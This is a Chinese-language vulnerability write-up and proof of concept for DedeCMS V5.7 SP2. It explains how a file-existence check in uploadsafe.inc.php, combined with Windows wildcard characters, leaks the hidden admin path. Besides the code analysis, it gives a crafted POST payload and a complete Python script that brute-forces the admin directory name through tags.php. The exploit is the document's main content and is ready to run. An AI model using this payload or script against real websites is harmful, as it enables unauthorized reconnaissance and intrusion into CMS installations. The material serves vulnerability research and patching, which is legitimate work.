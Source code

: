# DedeCMS 后台地址泄露漏洞

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

织梦内容管理系统(Dedecms)是一款PHP开源网站管理系统。dedecms 默认后台地址为 /dede，但很多时候可能会被管理员更改，这时，我们就需要先找到后台地址，本漏洞可以泄露出 dedecms 的后台。

## 漏洞影响

仅针对windows系统（这是因为 < 通配符只在 windows 生效），猜测影响全版本

测试版本 DedeCMS V5.7 SP2

## 漏洞分析

### 代码分析

问题出在 include/common.inc.php 的 148 行

```php
if($_FILES)
{
    require_once(DEDEINC.'/uploadsafe.inc.php');
}
```

上传文件时会请求 include/uploadsafe.inc.php

```php
...
$keyarr = array('name', 'type', 'tmp_name', 'size');
...
foreach($_FILES as $_key=>$_value)
{
    foreach($keyarr as $k)
    {
        if(!isset($_FILES[$_key][$k]))
        {
            exit('Request Error!');
        }
    }
    if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
    {
        exit('Request var not allow for uploadsafe!');
    }
    $$_key = $_FILES[$_key]['tmp_name'];
    ${$_key.'_name'} = $_FILES[$_key]['name'];
    ${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
    ${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
    if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
    {
        if(!defined('DEDEADMIN'))
        {
            exit('Not Admin Upload filetype not allow !');
        }
    }
    if(empty(${$_key.'_size'}))
    {
        ${$_key.'_size'} = @filesize($$_key);
    }
    
    $imtypes = array
    (
        "image/pjpeg", "image/jpeg", "image/gif", "image/png", 
        "image/xpng", "image/wbmp", "image/bmp"
    );

    if(in_array(strtolower(trim(${$_key.'_type'})), $imtypes))
    {
        $image_dd = @getimagesize($$_key);
        //问题就出在此处，获取不到就会报错退出
        if (!is_array($image_dd))
        {
            exit('Upload filetype not allow !');
        }
    }
}
```

首先会解析 `$_FILES` 的值，需要满足 `$_FILES[$key]` 一定要存在数组 `$keyarr`  中的这些键

然后就是不允许 `$key` 等于 cfg_ 或者 GLOBALS，这里防止了一部分的变量覆盖，因为之后就会 `$$key`

接下来就是一些取值，比较简单，然后给了一个文件类型的白名单，必须满足是这些类型，最后来到出问题的位置，获取图片的大小，获取不到就报错，这里的话，由于 `$_FILES` 的值可控，也就是 `$$key` 的值可控，既然文件名可控，那么我们就可以利用这里判断是不是存在某文件，再利用通配符，我们就可以获取到后台的地址 

### PHP在Windows上的一些奇妙特性

这里我们需要了解一下 php 在windows上的一些奇妙特性 [WINDOWS文件通配符分析](https://www.cnblogs.com/wangtanzhi/p/12868197.html)

```
大于号(>)相等于通配符问号(?)
小于号(<)相当于通配符星号(*)
双引号(")相当于点字符(.)
```

首先我们需要知道我们使用了文件操作函数，然后PHP的文件操作函数均调用了opendir

`opendir(win32readdir.c)` 使用了 `windows` 的 `FindFirstFile（API)` ，然后在FindFirstFile（API)中进行了如下的定义：

```
//  The following constants provide addition meta characters to fully
//  support the more obscure aspects of DOS wild card processing.

#define DOS_STAR        (L'<')
#define DOS_QM          (L'>')
#define DOS_DOT         (L'"')
```

于是我们的这三个符号在对php文件操作时就有了特殊含义

我们的这里使用了 getimagesize 函数，刚好他是文件操作，我们我们可以使用通配符 <

很多地方说的都是 < 只通配一个字符，但实际尝试中却是可以通配多个字符

### payload 构造

只要包含了 include/common.inc.php 的文件就可以被利用，没有其他特殊条件，这里我们可以选取 tags.php

在前面的文章中说过，每一个 GET 或者 POST 的参数都会进行如下处理

```php
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
    foreach($$_request as $_k => $_v)
    {
        if($_k == 'nvarname') ${$_k} = $_v;
        else ${$_k} = _RunMagicQuotes($_v);
    }
}
```

因此，我们的 `$_FILES` 也可以通过这种形式来获取，POST 一个 `_FILES[a][tmp_name]` 就可以实现

这里还有一个简单的绕过

```php
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
{
    if(!defined('DEDEADMIN'))
    {
        exit('Not Admin Upload filetype not allow !');
    }
}
```

我们这里必然是没有定义 DEDEADMIN 的，因此我们需要绕过，最简单的就是

```php
$_FILES[a][name]=''
```

因此我们可以构造 payload

```
_FILES[a][tmp_name]=./de</images/image.gif&_FILES[a][name]=&_FILES[a][type]=image/gif&_FILES[a][size]=10
```

## Exp

如果通配符只匹配一个字符，但刚好有文件夹的第一个字符与后台地址的第一个字符相同，那么将得不到结果，所以最好是先确定两个字符，因为只针对 windows，windows大小写不敏感，所以只需要小写字母+数字就行，图片文件需要是真实存在的

```python
import requests
import string
import re

s = requests.session()

def getData(payload):
    return {
        '_FILES[a][tmp_name]': payload,
        '_FILES[a][name]': '',
        '_FILES[a][type]': 'image/gif',
        '_FILES[a][size]': '10'
    }

def getAdmin(url):
    dic = string.digits + string.ascii_lowercase
    path = ''
    flag = False
    for i in dic:
        if flag:
            break
        for j in dic:
            payload = './' + i + j + '</images/image.gif'
            data = getData(payload)
            html = s.post(url + '/tags.php', data=data).text
            if 'Upload filetype not allow !' not in html:
                path = i + j
                flag = True
                break
    print("[+] " + url + "/" + path)
    while(1):
        for i in dic:
            payload = './' + path + i + '</images/image.gif'
            data = getData(payload)
            html = s.post(url + '/tags.php', data=data).text
            if 'Upload filetype not allow !' not in html:
                path = path + i
                print("[+] " + url + "/" + path)
                break
        if s.get(url + '/' + path + '/images/image.gif').status_code == 200:
            break

if __name__ == '__main__':
    url = 'http://127.0.0.1/dedecms'
    getAdmin(url)

```

## 参考

- https://wiki.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCms%E5%90%8E%E5%8F%B0%E5%9C%B0%E5%9D%80%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E/

`github` 链接：`https://github.com/N0puple/vulPOC`

获取文中环境可以关注公众号 “安全漏洞复现”，回复 “漏洞环境”